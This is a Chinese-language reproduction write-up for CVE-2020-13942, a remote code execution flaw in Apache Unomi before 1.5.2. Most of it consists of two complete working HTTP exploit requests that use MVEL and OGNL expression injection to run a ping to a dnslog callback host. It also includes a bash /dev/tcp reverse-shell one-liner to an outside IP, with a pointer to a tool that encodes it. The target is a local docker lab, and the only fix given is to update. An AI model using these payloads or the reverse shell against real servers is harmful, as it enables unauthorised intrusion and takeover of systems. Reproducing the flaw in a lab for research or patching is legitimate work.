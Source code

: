 # Apache Unomi远程代码执行漏洞复现-CVE-2020-13942

## 简介

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

**CVE-2020-13942漏洞是对CVE-2020-11975漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，并在服务器执行任意代码**

## 影响版本

> Apache Unomi <1.5.2

## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以8181为例。

有两种利用方式：

- 通过MVEL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 483
  
  {
      "filters": [
          {
              "id": "sample",
              "filters": [
                  {
                      "condition": {
                           "parameterValues": {
                              "test": "script::Runtime r = Runtime.getRuntime(); r.exec(\"ping 79jk3a.dnslog.cn\");"
                          },
                          "type": "profilePropertyCondition"
                      }
                  }
              ]
          }
      ],
      "sessionId": "sample"
  }
  ```

- 通过OGNL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 1064
  
  {
    "personalizations":[
      {
        "id":"gender-test",
        "strategy":"matching-first",
        "strategyOptions":{
          "fallback":"var2"
        },
        "contents":[
          {
            "filters":[
              {
                "condition":{
                  "parameterValues":{
                    "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"ping 79jk3a.dnslog.cn\"))",
                    "comparisonOperator":"equals",
                    "propertyValue":"male"
                  },
                  "type":"profilePropertyCondition"
                }
              }
            ]
          }
        ]
      }
    ],
    "sessionId":"sample"
  }
  ```

1. 运行如下命令启动一个Apache Unomi 1.5.1的服务器：`docker-compose up -d`

![](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/640.png)

2. 直接在首页抓包，把内容替换成上面任意一种POC即可

   目标出网测试

![](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/650.png)

3. 进行反弹shell，将`bash -i >& /dev/tcp/192.168.1.41/7777 0>&1`进行编码，地址：http://www.jackson-t.ca/runtime-exec-payloads.html

![](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/660.png)

4. 获取shell

![](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/670.png)

## 修复建议

更新最新版本

## 参考

> https://mp.weixin.qq.com/s/le1lir9x8v9cVf14V4oCPg